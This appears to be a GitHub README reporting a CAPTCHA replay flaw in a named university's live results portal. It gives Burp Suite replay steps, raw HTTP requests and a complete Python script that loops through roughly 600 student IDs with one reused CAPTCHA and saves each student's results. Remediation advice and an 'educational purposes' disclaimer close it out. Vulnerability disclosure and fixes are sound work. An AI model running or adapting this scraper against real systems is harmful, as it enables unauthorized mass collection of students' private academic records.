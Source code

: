 # 🐛 KLE Tech eResults CAPTCHA Bypass Exploit

## ⚠️ Vulnerability: Persistent CAPTCHA Token Allows Mass Data Scraping

### **Overview**
A security flaw in the [KLE Tech eResults](https://eresults.kletech.ac.in) portal allows **automated retrieval of student results** without solving multiple CAPTCHAs. The CAPTCHA token remains **unchanged when using the "Go Back" button**, allowing attackers to **reuse the same token** for multiple requests, effectively bypassing CAPTCHA validation.

This flaw enables **mass scraping of student records**, violating privacy regulations and exposing sensitive academic data.

---

## 🎯 **Vulnerability Type**
- **CAPTCHA Replay Attack**
- **Broken Authentication Mechanism**
- **Insecure Direct Object Reference (IDOR)**

---

## 🔍 **How the Exploit Works**
1. **Access the eResults page**, enter a valid **USN** (University Seat Number), and solve the CAPTCHA.
2. **Capture the request in Burp Suite** and note the **POST request** containing the CAPTCHA value.
3. **Navigate back in the browser** and input a **different USN**.
4. **Replay the Burp Suite request** with a modified **USN** while keeping the original CAPTCHA.
5. The server **accepts the request** and retrieves **new student results** without requiring a new CAPTCHA.

---

## 🔎 **Burp Suite Request & Response Analysis**


![Screenshot from 2025-03-06 22-16-18](https://github.com/user-attachments/assets/cd08acfa-4991-4690-8297-89745ec252c3)

### 🔹 **Original Request**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs110&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Modified Request (Exploiting the Vulnerability)**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs200&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Server Response**
```html
<html>
  <body>
    <h3>Student Name: John Doe</h3>
    <table>
      <tr><td>Machine Learning</td><td>A</td></tr>
      <tr><td>Data Structures</td><td>B</td></tr>
    </table>
  </body>
</html>
```
📊 The **server accepts the same CAPTCHA** and returns **another student's results** without verification.

---

## 🤖 **Automating the Exploit**
We developed a Python script to:
1. **Solve CAPTCHA once** and save the token.
2. **Loop through all USNs** (`01fe22bcs001` → `01fe22bcs300`, `01fe22bci001` → `01fe22bci300`).
3. **Reuse the same CAPTCHA** for every request.
4. **Save each student's HTML response locally**.

### 👉 **Python Exploit Code**
```python
import requests

base_url = "https://eresults.kletech.ac.in/index.php"
session = requests.Session()

captcha_value = input("Enter CAPTCHA value: ").strip()
start_usn = 1
end_usn = 300

for series in ["01fe22bcs", "01fe22bci"]:
    for i in range(start_usn, end_usn + 1):
        usn = f"{series}{i:03d}"
        data = {
            "usn": usn,
            "osolCatchaTxt": captcha_value,
            "osolCatchaTxtInst": "0",
        }

        response = session.post(
            f"{base_url}?option=com_examresult&task=getResult",
            data=data
        )

        if "Wrong CAPTCHA" in response.text:
            print(f"❌ CAPTCHA expired. Try again.")
            break

        with open(f"{usn}.html", "w", encoding="utf-8") as file:
            file.write(response.text)

        print(f"✅ Saved: {usn}.html")
```

---

## 🛡 **How to Fix This?**
### 🔴 **Current Issue:**
- CAPTCHA is **not session-based** and can be reused.
- No per-request CAPTCHA verification.
- No rate-limiting or request throttling.

### 🛠 **Recommended Fixes:**
1. **Generate a new CAPTCHA** for every request.
2. **Tie the CAPTCHA token to a session** and expire it after a single use.
3. **Implement rate limiting** to block excessive requests from a single user.
4. **Use reCAPTCHA or a stronger CAPTCHA solution** to prevent automation.

---

## 🎯 **Impact**
- **Confidentiality Breach**: Any student's academic records can be accessed.
- **Privacy Violation**: Exposes personal academic information without authentication.
- **Regulatory Issues**: May violate data protection laws like **GDPR** and **Indian IT Act**.

---

## 💌 **Responsible Disclosure**
This report is for **educational purposes only**. If you are a security researcher or the system administrator of KLE Tech, we strongly recommend **fixing this vulnerability immediately**.

---

## ⚠️ **Disclaimer**
This repository is for **educational and ethical hacking research purposes only**. Unauthorized access to systems without permission is **illegal** and punishable by law. Do not misuse this information.

---

## 🔗 **References**
- [CAPTCHA Bypass Techniques](https://owasp.org/www-project-automated-threats-to-web-applications/)
- [OWASP IDOR (Insecure Direct Object Reference)](https://owasp.org/www-community/attacks/Insecure_Direct_Object_Reference)

---

### 💪 Thanks for reading. Stay ethical! 🔒


